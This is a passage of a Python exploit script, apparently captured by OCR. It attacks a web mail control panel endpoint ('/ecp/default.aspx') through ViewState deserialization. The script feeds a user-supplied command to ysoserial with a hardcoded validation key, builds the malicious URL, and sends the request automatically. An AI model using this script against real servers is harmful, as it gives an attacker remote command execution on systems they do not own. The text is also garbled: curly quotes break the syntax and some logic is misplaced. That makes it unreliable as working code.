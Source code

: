 ```
parser.add_argument("-c", “–cmd”, help=“Command u want to execute”, required=True)

parser.add_argument("-e", “–encrypt”, help=“Encrypt the payload”, action=‘store_true’,default=False)

args = parser.parse_args()

url = args.server

print("[*] Start to exploit…")

user = args.user

pwd = args.password

command = args.cmd

view, key, base_url = get_value(url, user, pwd)

if key is None:

key = ‘test’

sys.exit(1)

ex_payload = “”“ysoserial.exe -p ViewState -g TextFormattingRunProperties -c “{}” --validationalg=“SHA1” --validationkey=“CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF” --generator=”{}" --viewstateuserkey="{}" --islegacy “”".format(command,view,key)

if args.encrypt:

re_payload = ex_payload + ’ --decryptionalg=“3DES” --decryptionkey=“E9D2490BD0075B51D1BA5288514514AF” --isencrypted’

else:

re_payload = ex_payload + " --isdebug"

print("\n"+re_payload)

out_payload = ysoserial(re_payload)

if args.encrypt:

final_exp = “{}/ecp/default.aspx?__VIEWSTATEENCRYPTED=&__VIEWSTATE={}”.format(base_url, quote(out_payload))

else:

final_exp = “{}/ecp/default.aspx?__VIEWSTATEGENERATOR={}&__VIEWSTATE={}”.format(base_url, view, quote(out_payload))

print("\n[+] Exp url: {}".format(final_exp))

print("\n[*] Auto trigger payload…")

status = session.get(final_exp,verify=False,timeout=15)

if status.status_code==500:

print("[*] Status code: %i, Maybe success!" % status.status_code) `if **name** == “**main**”:

main()` 
```